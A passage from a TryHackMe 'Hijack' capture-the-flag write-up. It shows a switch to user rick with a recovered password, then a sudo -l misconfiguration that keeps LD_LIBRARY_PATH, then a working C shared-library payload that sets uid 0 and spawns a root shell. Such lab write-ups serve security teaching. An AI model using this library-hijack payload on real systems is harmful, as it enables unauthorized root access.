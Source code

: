```bash

// Check connection
if ($mysqli->connect_error) {
  die("Connection failed: " . $mysqli->connect_error);
}
?>
```

Using the password I found, I was able to switch to the user Rick and retrieve the user flag.
```bash
www-data@Hijack:/var/www/html$ su rick
  Password: 
rick@Hijack:/var/www/html$ cd /home/rick/
rick@Hijack:~$ cat user.txt 
  THM{[removed]}
```

## Privilege Escalation root

I started by running `sudo -l` and received the following output:
```bash
rick@Hijack:~$ sudo -l
  [sudo] password for rick: 
  Matching Defaults entries for rick on Hijack:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_LIBRARY_PATH

  User rick may run the following commands on Hijack:
      (root) /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```

There where two notable points in the output. First, it indicates that we could manipulate dynamic libraries that get executed. Second, we could execute a binary as root. To exploit this, I checked which libraries were loaded when `apache2` was executed by using `ldd`: 
```bash   
rick@Hijack:/tmp$ ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007ffe5f389000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f27a7146000)
        libaprutil-1.so.0 => /usr/lib/x86_64-linux-gnu/libaprutil-1.so.0 (0x00007f27a6f1f000)
        libapr-1.so.0 => /usr/lib/x86_64-linux-gnu/libapr-1.so.0 (0x00007f27a6ced000)
        libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f27a6ad0000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f27a6706000)
        libcrypt.so.1 => /lib/x86_64-linux-gnu/libcrypt.so.1 (0x00007f27a64ce000)
        libexpat.so.1 => /lib/x86_64-linux-gnu/libexpat.so.1 (0x00007f27a62a5000)
        libuuid.so.1 => /lib/x86_64-linux-gnu/libuuid.so.1 (0x00007f27a60a0000)
        libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f27a5e9c000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f27a765b000)
```

Next, I needed to create a script, for example, called `exploit.c`, with the following content:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void inject()__attribute__((constructor));

void inject() {
	unsetenv("LD_LIBRARY_PATH");
	setuid(0);
	setgid(0);
	system("/bin/bash");
}
```
